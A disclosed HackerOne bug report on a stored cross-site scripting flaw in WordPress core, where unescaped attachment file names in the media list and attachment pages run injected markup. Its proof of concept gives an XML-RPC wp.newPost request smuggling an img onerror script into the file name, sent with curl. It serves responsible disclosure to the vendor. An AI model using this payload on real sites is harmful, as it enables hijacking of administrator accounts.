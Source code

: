 # WordPress core stored XSS via attachment file name

## Report Details
- **Report ID**: 139245
- **URL**: https://hackerone.com/reports/139245
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-17T05:47:51.134Z
- **Disclosed**: 2016-08-05T22:07:08.621Z

## Reporter
- **Username**: jouko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
I think there's a problem with missing HTML encoding of attachment file names. A user with the capability to create attachments could compromise other accounts including administrator by injecting HTML tags in the file name.

Creating attachment with arbitrary filenames is possible at least via the XMLRPC wp.newPost() function.

With a quick search I found two places where the filename is not HTML-escaped. First, `wp-admin/includes/class-wp-media-list-table.php`:
~~~~ php
                <p class="filename">
                        <span class="screen-reader-text"><?php _e( 'File name:' ); ?> </span>
                        <?php
                        $file = get_attached_file( $post->ID );
                        echo wp_basename( $file );
                        ?>
                </p>
~~~~
The injected script is triggered when a user clicks the *Media* menu in the Dashboard.

The second is the attachment page found e.g. with the *attachment_id=xxx* query parameter. It might be theme-dependent. I checked Twenty Fourteen and Twenty Sixteen and both were vulnerable.

#PoC#
1. Create a file called `xss.xml`:
~~~~ xml
<?xml version="1.0"?>
<methodCall>
<methodName>wp.newPost</methodName>
<params>
        <param><value>empty</value></param>
        <param><value>username</value></param>
        <param><value>password</value></param>
        <param><struct>
                <member><name>post_title</name><value>aaa</value></member>
                <member><name>post_type</name><value>attachment</value></member>
                <member><name>post_content</name><value>bbb</value></member>
                <member><name>post_status</name><value>publish</value></member>
                <member><name>file</name><value>ccc'&gt;test&lt;img src=x onerror=alert('xss') onload=alert('xss')&gt;</value></member>
        </struct></param>       
</params>
</methodCall>
~~~~

2. Send the request with

~~~~ sh
curl 'https://wordpress.site/xmlrpc.php' --data-binary "`cat xss.xml`" -H 'Content-type: application/xml'
~~~~

3. Go to the Dashboard as an administrator and view the media list. An alert box should appear. Only the *list* mode seems to be vulnerable but apparently it's the default.


## Attachments
No attachments
